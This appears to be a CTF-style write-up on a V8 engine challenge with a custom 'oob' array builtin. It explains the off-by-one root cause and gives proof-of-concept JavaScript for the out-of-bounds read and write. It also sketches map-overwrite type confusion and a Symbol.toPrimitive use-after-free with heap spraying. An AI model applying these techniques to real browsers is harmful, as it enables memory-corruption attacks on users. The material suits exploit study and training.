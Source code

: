 This is internal of Builtin OOB function.  

This can perform Read/Write operations by using like `a.oob()`  and `a.oob(1.1)`.  

The problem is, it directly use length value to element's backing_store for read and write operations, which is root-cause of off-by-one vulnerability.  

## PoC

```javascript
    let a = [1.1, 2.2];
    let b = [1.1, 2.2];
    
    // off-by-one read
    console.log(a.oob())
    
    // off-by-one write
    a.oob(1.1);
````

## Exploit

So, we have off-by-one now, and we can think 2 ways to exploit.  

One is that by setting memory layouts like `| A's element | A's object |` , and modify A's object map to trigger type confusion.  

Basically, Every V8 Objects have `map` which represent current object's shape.  

This member is placed at first of Object's class.  

So, it's possible to overwrite some object's map by using off-by-one write vulnerability.  

Another method is quite unstable, but possible to exploit this vulnerability.  

At first glance, `length` and `element` are cached.  

And look following code importantly.  

`Object::ToNumber(isolate, args.at<Object>(1))`  

`Object::ToNumber` references Object's `[Symbol.toPrimitive]`.  

So, if we install custom callback to some object's `[Symbol.toPrimitive]` which do free current array and spray some array objects, we can modify newly allocated object's length property.  

```javascript
    let a = [1.1, 2.2, 3.3, 4.4];
    let storage = [];
    let obj = {
    	[Symbol.toPrimitive](hint) {
    		a = null;
    		gc();
    		gc();
    		gc();
    		for(let i = 0 ; i < 1000; i++) {
    			storage.push([1.1, 2.2, 3.3, 4.4]);
    		}
    		return 0x1000;
    	}
    }
    
    a.oob(obj);
```
